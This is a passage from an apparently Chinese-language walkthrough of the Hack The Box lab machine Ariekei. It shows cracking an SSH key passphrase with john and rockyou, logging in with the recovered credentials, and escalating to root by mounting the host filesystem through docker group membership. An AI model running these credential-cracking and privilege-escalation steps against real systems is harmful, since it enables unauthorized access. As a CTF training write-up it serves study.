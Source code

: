 ```bash
$ updatedb
$ locate ssh2john
$ python /usr/share/john/ssh2john.py host_rsa > host_rsa_hash
$ john host_rsa_hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![image-20200920100344877]({{ site.url }}/assets/Ariekei_65.assets/image-20200920100344877.png)

得到密码

账户：spanishdancer

密码：purple1

ssh再试

```bash
$ chmod 600 host_rsa
$ ssh -i host_rsa spanishdancer@10.10.10.65
```

![image-20200920100436647]({{ site.url }}/assets/Ariekei_65.assets/image-20200920100436647.png)

———————————————提权———————————————————————————————

相关：

[https://fosterelli.co/privilege-escalation-via-docker.html](https://fosterelli.co/privilege-escalation-via-docker.html)

请注意，该用户是该docker组的成员。一些容器解决方案，包括docker，将有一个专门的组，以允许非特权用户管理其容器，而不必升级为root用户。这是因为docker需要root特权才能执行许多操作。不幸的是，这也使升级到root变得异常容易。记住这一点很重要，

首先，我们查看可用的镜像：

```bash
$ docker images
```

![image-20200920100525988]({{ site.url }}/assets/Ariekei_65.assets/image-20200920100525988.png)

我们将为此使用bash图像。现在，我们以bash作为模板创建一个新映像，

并将主机的根目录挂载在其中的文件夹中/rootfs

```bash
$ docker run -v /:/rootfs -i -t bash
```

![image-20200920100609955]({{ site.url }}/assets/Ariekei_65.assets/image-20200920100609955.png)

